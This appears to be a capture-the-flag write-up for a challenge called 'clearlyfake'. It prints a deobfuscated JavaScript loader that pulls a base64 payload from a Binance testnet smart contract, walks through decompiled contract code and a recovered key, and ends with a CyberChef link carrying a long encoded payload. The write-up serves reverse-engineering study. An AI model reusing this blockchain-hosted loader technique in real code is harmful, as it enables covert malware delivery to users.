







## 8 - clearlyfake



Given a JavaScript file, deobfuscate it using [de4js](https://lelinhtinh.github.io/de4js/)

```js
const Web3 = require("web3");
const fs = require("fs");
const web3 = new Web3("BINANCE_TESTNET_RPC_URL");
const contractAddress = "0x9223f0630c598a200f99c5d4746531d10319a569";
async function callContractFunction(inputString) {
    try {
        const methodId = "0x5684cff5";
        const encodedData = methodId + web3.eth.abi.encodeParameters(["string"], [inputString]).slice(2);
        const result = await web3.eth.call({
            to: contractAddress,
            data: encodedData
        });
        const largeString = web3.eth.abi.decodeParameter("string", result);
        const targetAddress = Buffer.from(largeString, "base64").toString("utf-8");
        const filePath = "decoded_output.txt";
        fs.writeFileSync(filePath, "$address = " + targetAddress + "\n");
        const new_methodId = "0x5c880fcb";
        const blockNumber = 43152014;
        const newEncodedData = new_methodId + web3.eth.abi.encodeParameters(["address"], [targetAddress]).slice(2);
        const newData = await web3.eth.call({
            to: contractAddress,
            data: newEncodedData
        }, blockNumber);
        const decodedData = web3.eth.abi.decodeParameter("string", newData);
        const base64DecodedData = Buffer.from(decodedData, "base64").toString("utf-8");
        fs.writeFileSync(filePath, decodedData);
        console.log(`Saved decoded data to:${filePath}`)
    } catch (error) {
        console.error("Error calling contract function:", error)
    }
}
const inputString = "KEY_CHECK_VALUE";
callContractFunction(inputString);
```

Try searching for the contract address on the Binance testnet network using  [BSCScan](https://testnet.bscscan.com/address/0x9223f0630c598a200f99c5d4746531d10319a569). In tab Contract we see bytecode:



Then, use [Dedaub](https://app.dedaub.com/decompile?md5=706b498d50dcfda49235d0af08e5388d&session_state=79a8a882-5243-4a3d-854c-0f906c14df8f&iss=https%3A%2F%2Fauth.dedaub.com%2Frealms%2Fdedaub&code=96b3f442-444a-4bd8-a8c1-a9ae02f618d3.79a8a882-5243-4a3d-854c-0f906c14df8f.bf97e6aa-5727-4b17-bffd-bdb01f4857ed) to decompile the Solidity code. It checks whether the string is `giV3_M3_p4yL04d!!!!!!`. If correct, it returns another contract address: `0x5324eab94b236d4d1456edc574363b113cebf09d`





Tiếp tục decompile bytecode trong smart contract vừa tìm được bằng [Dedaub](https://app.dedaub.com/decompile?md5=f427c0a25c901b910bd4dd94c30fbf46)

```js
uint256[] array_0; // STORAGE[0x0]
function 0x14a(bytes varg0) private { 
    require(msg.sender == address(0xab5bc6034e48c91f3029c4f1d9101636e740f04d), Error('Only the owner can call this function.'));
    require(varg0.length <= uint64.max, Panic(65)); // failed memory allocation (too much memory)
    v0 = 0x483(array_0.length);
    if (v0 > 31) {
        v1 = v2 = array_0.data;
        v1 = v3 = v2 + (varg0.length + 31 >> 5);
        while (v1 < v2 + (v0 + 31 >> 5)) {
            STORAGE[v1] = STORAGE[v1] & 0x0 | uint256(0);
            v1 = v1 + 1;
        }
    }
    v4 = v5 = 32;
    if (varg0.length > 31 == 1) {
        v6 = array_0.data;
        v7 = v8 = 0;
        while (v7 < varg0.length & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) {
            STORAGE[v6] = MEM[varg0 + v4];
            v6 = v6 + 1;
            v4 = v4 + 32;
            v7 = v7 + 32;
        }
        if (varg0.length & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0 < varg0.length) {
            STORAGE[v6] = MEM[varg0 + v4] & ~(uint256.max >> ((varg0.length & 0x1f) << 3));
        }
        array_0.length = (varg0.length << 1) + 1;
    } else {
        v9 = v10 = 0;
        if (varg0.length) {
            v9 = MEM[varg0.data];
        }
        array_0.length = v9 & ~(uint256.max >> (varg0.length << 3)) | varg0.length << 1;
    }
    return ;
}
function fallback() public payable { 
    revert();
}
function 0x5c880fcb() public payable { 
    v0 = 0x483(array_0.length);
    v1 = new bytes[](v0);
    v2 = v3 = v1.data;
    v4 = 0x483(array_0.length);
    if (v4) {
        if (31 < v4) {
            v5 = v6 = array_0.data;
            do {
                MEM[v2] = STORAGE[v5];
                v5 += 1;
                v2 += 32;
            } while (v3 + v4 <= v2);
        } else {
            MEM[v3] = array_0.length >> 8 << 8;
        }
    }
    v7 = new bytes[](v1.length);
    MCOPY(v7.data, v1.data, v1.length);
    v7[v1.length] = 0;
    return v7;
}

function 0x483(uint256 varg0) private { 
    v0 = v1 = varg0 >> 1;
    if (!(varg0 & 0x1)) {
        v0 = v2 = v1 & 0x7f;
    }
    require((varg0 & 0x1) - (v0 < 32), Panic(34)); // access to incorrectly encoded storage byte array
    return v0;
}

function owner() public payable { 
    return address(0xab5bc6034e48c91f3029c4f1d9101636e740f04d);
}

function 0x916ed24b(bytes varg0) public payable { 
    require(4 + (msg.data.length - 4) - 4 >= 32);
    require(varg0 <= uint64.max);
    require(4 + varg0 + 31 < 4 + (msg.data.length - 4));
    require(varg0.length <= uint64.max, Panic(65)); // failed memory allocation (too much memory)
    v0 = new bytes[](varg0.length);
    require(!((v0 + ((varg0.length + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) + 32 + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) > uint64.max) | (v0 + ((varg0.length + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) + 32 + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) < v0)), Panic(65)); // failed memory allocation (too much memory)
    require(varg0.data + varg0.length <= 4 + (msg.data.length - 4));
    CALLDATACOPY(v0.data, varg0.data, varg0.length);
    v0[varg0.length] = 0;
    0x14a(v0);
}
// Note: The function selector is not present in the original solidity code.
// However, we display it for the sake of completeness.
function __function_selector__() private { 
    MEM[64] = 128;
    require(!msg.value);
    if (msg.data.length >= 4) {
        if (0x5c880fcb == msg.data[0] >> 224) {
            0x5c880fcb();
        } else if (0x8da5cb5b == msg.data[0] >> 224) {
            owner();
        } else if (0x916ed24b == msg.data[0] >> 224) {
            0x916ed24b();
        }
    }
    fallback();
}
```

Open block `43152014` (the block number from the first JS code) in the new contract. Show the input in UTF-8, and we get a base64 string



Remove the initial characters (the function address called in the smart contract), then decode the remaining part from [base64](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=VzNOWmMzUkZiUzVVWlhoMExtVk9RMDlFYVc1SFhUbzZkVzVwWTI5a1JTNW5aWFJUZEhKcGJrY29XM05aYzNSRmJTNWpUMDUyUlhKMFhUbzZSbkp2VFdKaFUwVTJOSE4wVWtsdVJ5Z2lTWGRDVTBGSFJVRmpkMEl3UVVkRlFVeFJRblJCUnpoQlpGRkNla0ZIVlVGamQwRm5RVVZGUVdKUlFucEJSMnRCVEZGQ1ZFRkhUVUZaVVVKMVFVTXdRVkZuUWpGQlIxbEJXbWRDYkVGSVNVRkpRVUozUVVkRlFXUkJRbXBCUjJkQlNVRkNZMEZITkVGRVVVRkxRVU5SUVZwblFtOUJSMWxCWlZGQ2FrRkRRVUZRVVVGblFVVkJRVWxuUVU1QlFXOUJaRkZDZWtGSGEwRmlaMEp1UVVOQlFWVjNRalZCU0UxQlpFRkNiRUZITUVGUGQwRk9RVUZ2UVdSUlFucEJSMnRCWW1kQ2JrRkRRVUZWZDBJMVFVaE5RV1JCUW14QlJ6QkJUR2RDVTBGSVZVRmlaMEl3UVVkclFXSlJRbXhCUXpSQlUxRkNkVUZJVVVGYVVVSjVRVWM0UVdOQlFsUkJSMVZCWTJkQ01rRkhhMEZaZDBKc1FVaE5RVTkzUVU1QlFXOUJZMEZDTVVGSFNVRmlRVUp3UVVkTlFVbEJRbXBCUjNkQldWRkNla0ZJVFVGSlFVSnRRVWRuUVZwblFqVkJSMDFCU1VGQ04wRkJNRUZEWjBGblFVTkJRVWxCUVdkQlJuTkJVa0ZDYzBGSGQwRlRVVUowUVVoQlFXSjNRbmxCU0ZGQlMwRkJhVUZIYzBGYVVVSjVRVWMwUVZwUlFuTkJSRTFCVFdkQmFVRkRhMEZZVVVGT1FVRnZRVWxCUVdkQlEwRkJTVUZDZDBGSVZVRlpaMEp6UVVkclFWbDNRV2RCU0UxQlpFRkNhRUZJVVVGaFVVSnFRVU5CUVZwUlFqUkJTRkZCV2xGQ2VVRkhORUZKUVVKS1FVYzBRV1JCUWxGQlNGRkJZMmRCWjBGRlkwRmFVVUl3UVVaQlFXTm5RblpCUjAxQlVWRkNhMEZIVVVGalowSnNRVWhOUVdOM1FXOUJSV3RCWW1kQ01FRkdRVUZrUVVKNVFVTkJRV0ZCUWs1QlJ6aEJXa0ZDTVVGSGQwRmFVVUZ6UVVOQlFXTjNRakJCU0VsQllWRkNkVUZIWTBGSlFVSjNRVWhKUVdKM1FtcEJSVFJCV1ZGQ2RFRkhWVUZMVVVFM1FVRXdRVU5uUVdkQlEwRkJTVUZCWjBGR2MwRlNRVUp6UVVkM1FWTlJRblJCU0VGQlluZENlVUZJVVVGTFFVRnBRVWR6UVZwUlFubEJSelJCV2xGQ2MwRkVUVUZOWjBGcFFVTnJRVmhSUVU1QlFXOUJTVUZCWjBGRFFVRkpRVUozUVVoVlFWbG5Rbk5CUjJ0QldYZEJaMEZJVFVGa1FVSm9RVWhSUVdGUlFtcEJRMEZCV2xGQ05FRklVVUZhVVVKNVFVYzBRVWxCUWtwQlJ6UkJaRUZDVVVGSVVVRmpaMEZuUVVWM1FXSjNRbWhCUjFGQlZFRkNjRUZIU1VGalowSm9RVWhKUVdWUlFXOUJTRTFCWkVGQ2VVRkhhMEZpWjBKdVFVTkJRV0puUW1oQlJ6QkJXbEZCY0VGRWMwRkVVVUZMUVVOQlFVbEJRV2RCUTBGQlYzZENSVUZIZDBGaVFVSktRVWN3UVdOQlFuWkJTRWxCWkVGQmIwRkRTVUZoZDBKc1FVaEpRV0puUW14QlIzZEJUWGRCZVVGRFNVRkxVVUprUVVFd1FVTm5RV2RCUTBGQlNVRkJaMEZJUVVGa1VVSnBRVWQzUVdGUlFtcEJRMEZCWTNkQ01FRkhSVUZrUVVKd1FVZE5RVWxCUW14QlNHZEJaRUZDYkVGSVNVRmlaMEZuUVVkSlFXSjNRblpCUjNkQlNVRkNWMEZIYTBGalowSXdRVWhWUVZsUlFuTkJSa0ZCWTJkQ2RrRklVVUZhVVVKcVFVaFJRVXRCUWtwQlJ6UkJaRUZDVVVGSVVVRmpaMEZuUVVkM1FXTkJRa0pCUjFGQldrRkNlVUZIVlVGamQwSjZRVU4zUVVsQlFsWkJSV3RCWW1kQ01FRkdRVUZrUVVKNVFVTkJRV0ZSUWpSQlIwVkJZV2RDZEVGSWIwRk1RVUZuUVVoVlFXRlJRblZCU0ZGQlNVRkNiVUZIZDBGVVowSnNRVWhqUVZWQlFubEJSemhCWkVGQ2JFRkhUVUZrUVVGelFVTkJRV0ozUWpGQlNGRkJTVUZDTVVGSGEwRmlaMEl3UVVOQlFXSkJRbmRCUjFsQllrRkNVRUZIZDBGYVFVSlJRVWhKUVdKM1FqQkJSMVZCV1hkQ01FRkRhMEZQZDBGT1FVRnZRV1pSUVU1QlFXOUJTV2RDUVVGQk1FRkRaMEZPUVVGdlFWRlJRbXRCUjFGQlRGRkNWVUZJYTBGalFVSnNRVU5CUVVwQlFtMUJSMmRCV21kQ05VRkhUVUZFVVVGTFFVRXdRVU5uUVd0QlJ6UkJaV2RDTTBGSVVVRmFkMEl5UVVkUlFVbEJRVGxCUTBGQlYzZENiVUZIWjBGYVowSTFRVWROUVZoUlFUWkJSRzlCVkVGQ2RrRkhSVUZhUVVKTlFVZHJRVmxuUW5sQlIwVkJZMmRDTlVGRFowRkpaMEZyUVVOblFVdEJRVzVCVDAxQllsRkNla0ZQTUVGTVowRnVRVU56UVVwM1FtdEJSM2RCWWtGQmJrRkRhMEZNWjBKUFFVVTRRV05uUW5SQlJVVkJZa0ZDY0VGSWIwRlNVVUZ2UVVaelFWbDNRa2xCUjBWQlZXZENaRUZEWjBGT2QwRjNRVU52UVUxM1FYaEJRemhCVFhkQmVFRkRhMEZMZDBKaVFVZE5RV0ZCUW1oQlNFbEJXRkZCYjBGRVJVRk5VVUY0UVVOclFVdDNRbUpCUlUxQllVRkNhRUZJU1VGWVVVRnZRVVp6UVZGblFqVkJTRkZCV2xGQ1pFRkVRVUZsUVVFelFVUkpRVXRSUVhKQlJuTkJVWGRDU1VGSFJVRlZaMEprUVVOblFVMVJRWGRCUkd0QlMzZEJNa0ZFUVVGTVVVRXlRVVJCUVV0UlFYSkJSbk5CVVhkQ2IwRkhSVUZWWjBKa1FVTm5RVTVSUVRCQlEzTkJUVkZCTUVGRGEwRkxVVUZuUVVNd1FXTm5RbXhCU0VGQllrRkNhRUZIVFVGYVVVRm5RVVp6UVZsM1FtOUJSMFZCVldkQ1pFRkRaMEZYZDBKcFFVWnJRVlpCUWtaQlJqQkJUVUZDTkVGRVZVRlpkMEZ3UVVOelFWZDNRa1JCUldkQldWRkNlVUZHTUVGTFFVSmlRVWRKUVZkUlFsVkJSVlZCV0ZGQmQwRklaMEZPZDBGM1FVTnJRVXQzUW1KQlJVMUJZVUZDUWtGR1NVRllVVUZ2UVVSRlFVMW5RWHBCUTNOQlRXZEJkRUZFU1VGTFVVRnlRVVp6UVZGM1FrbEJSMFZCWTJkQ1pFRkRaMEZYZDBKcFFVaHJRV1JCUW14QlJqQkJUVUZDTkVGRVVVRmFRVUZ3UVVOelFWZDNRa1JCUjJkQlVWRkNVMEZHTUVGTFFVSmlRVWRKUVZkUlFsVkJSVlZCV0ZGQmQwRklaMEZPWjBKc1FVTnJRVXQzUW1KQlIwMUJZVUZDYUVGSVNVRllVVUZ2UVVaelFWbG5RalZCUmxGQlVsRkNaRUZFUVVGbFFVRXpRVWRSUVV0UlFYQkJRMGxCUzFGQlRrRkJiMEZLUVVKMVFVZHZRV1ZSUWpOQlIyTkJZbmRCWjBGRU1FRkpRVUppUVVkWlFXRkJRbTFCU0d0QldYZENaRUZFYjBGUFowSklRVWRWUVdSQlFsRkJTRWxCWW5kQ2FrRkZSVUZhUVVKclFVaEpRVnBSUW5wQlNFMUJTMEZCYTBGSE5FRmxaMEl6UVVoUlFWcDNRakpCUjFGQlRFRkJaMEZEU1VGS1FVRnZRVU5uUVVwM1JFSkJSekJCWTNkRWMwRkdUVUZaZDBGdVFVTnpRVXAzUkd0QlJ6UkJVV2RDTVVGSFdVRmFaMEZ1UVVOelFVcDNRbXhCU0VsQlNuZEJjRUZETkVGVVowSlFRVWhKUVdKUlFrSkJSWGRCVTFGQ05rRkZWVUZMUVVKaVFVVk5RVk5CUW1oQlJrbEJXRkZCYjBGR2MwRlpaMEphUVVaUlFWSlJRbVJCUkVGQlpVRkJNRUZFV1VGTFVVRnlRVVp6UVZGM1FtOUJSMFZCWTJkQ1pFRkRaMEZYZDBKcFFVWnJRVlpCUW14QlJqQkJUVUZDTkVGRVdVRmFaMEZ3UVVOelFWZDNRbXBCUldkQlVWRkNlVUZHTUVGTFFVSmlRVWRKUVZkUlFsVkJSVlZCV0ZGQmQwRklaMEZPZDBGNVFVTnJRVXQzUW1KQlJVMUJVMEZDYUVGSVNVRllVVUZ2UVVSRlFVMUJRVFZCUTJ0QlMzZENZa0ZIVFVGVFFVSm9RVVpKUVZoUlFXOUJSbk5CVVdkQ05VRkdVVUZhVVVKa1FVUkJRV1ZCUVRCQlJGRkJTMUZCY0VGRFFVRk1VVUo1UVVkVlFXTkJRbk5CUjBWQldYZENiRUZEUVVGWGQwSnFRVWRuUVZGUlFsTkJSakJCUzBGQk5VRkVTVUZMVVVGeVFVWnpRVkYzUW05QlIwVkJZMmRDWkVGRFowRlhkMEpwUVVoclFWWkJRa1pCUmpCQlRVRkNORUZFWTBGTlFVRndRVU56UVZkM1FtcEJSMmRCV1ZGQ1UwRkdNRUZMUVVKaVFVZEpRVmRSUWxWQlJWVkJXRkZCZDBGSVowRk9kMEpwUVVOclFVdDNRbUpCUjAxQllVRkNhRUZHU1VGWVVVRnZRVVp6UVZGblFscEJTRkZCVWxGQ1pFRkVRVUZsUVVFd1FVZFJRVXRSUVhKQlJuTkJXWGRDYjBGSFJVRmpaMEprUVVOblFVMW5RWGhCUTNOQlQwRkJOVUZEYTBGTGQwSmlRVWROUVdGQlFtaEJSa2xCV0ZGQmIwRkVUVUZOVVVGeVFVUnJRVTVCUVhCQlEydEJTV2RCY0VGQk1FRkRaMEZyUVVoQlFVbEJRVGxCUTBGQlRVRkJUa0ZCYjBGWGQwSnRRVWRuUVZwblFqVkJSMDFCV0ZGQk5rRkViMEZXWjBKd1FVaEpRV1JCUWpGQlIwVkJZa0ZDVVVGSVNVRmlkMEl3UVVkVlFWbDNRakJCUTJkQlNrRkNkVUZIYjBGbFVVSXpRVWRqUVdKM1FYTkJRMEZCVjNkQ01VRkhhMEZpWjBJd1FVUk5RVTFuUW1SQlJGVkJURUZCWjBGRVFVRmxRVUV3UVVSQlFVeEJRV2RCUm5OQlkyZENiRUZIV1VGWVVVRnJRVWhCUVV0UlFVNUJRVzlCU2tGQ2IwRkhSVUZpUVVJMVFVTkJRVkJSUVdkQlEwbEJUVUZDTkVGRlNVRlBRVUZwUVVFd1FVTm5RV3RCUjFGQldrRkNkVUZIWTBGSlFVRTVRVU5CUVVsblFYZEJTR2RCVGxGQk0wRkRTVUZFVVVGTFFVTlJRV1ZCUW10QlIxVkJZMUZCWjBGRU1FRkpRVUZwUVVSQlFXVkJRWGRCUkVGQlNXZEJUa0ZCYjBGS1FVSjBRVWRKUVdOblFtMUJRMEZCVUZGQlowRkRTVUZOUVVJMFFVUkJRVTUzUVdsQlFUQkJRMmRCYTBGSFZVRmtkMEpvUVVoRlFVbEJRVGxCUTBGQlNXZEJkMEZJWjBGUFFVRjNRVU5KUVVSUlFVdEJRMUZCV21kQ2VFRkliMEZrUVVGblFVUXdRVWxCUVdsQlJFRkJaVUZDUkVG